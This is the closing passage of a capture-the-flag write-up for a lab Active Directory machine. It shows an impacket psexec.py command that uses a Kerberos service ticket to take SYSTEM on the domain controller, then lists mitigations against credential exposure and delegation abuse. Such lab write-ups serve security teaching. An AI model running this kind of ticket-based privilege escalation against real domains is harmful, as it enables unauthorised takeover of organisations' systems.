 Now we can run `impacket`'s `psexec.py` with our service ticket to a elevate our privileges to `NT AUTHORITY\SYSTEM`.

```
$ python3 psexec.py SUPPORT.HTB/administrator:@dc.support.htb -k -no-pass -dc-ip 10.10.11.174
```

<img src="/assets/img/posts/Support/root-flag.png">

## Mitigation

* Never hard-code credentials in an application or script
* Never place passwords in any AD attribute
* Never allow anonymous access to shares
  * If less restrictive access is required, use `Authenticated Users` instead of `Everyone` for share permissions
* Add privileged accounts (Domain Admins, Enterprise Admins, Schema Admins, etc) to [Protected Users](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group) group
* Enable **Account is sensitive and cannot be delegated** on privileged accounts
  * [Protecting Privileged Domain Accounts: Safeguarding Access Tokens](https://www.sans.org/blog/protecting-privileged-domain-accounts-safeguarding-access-tokens/)
* Disable normal users from creating/adding computers to the domain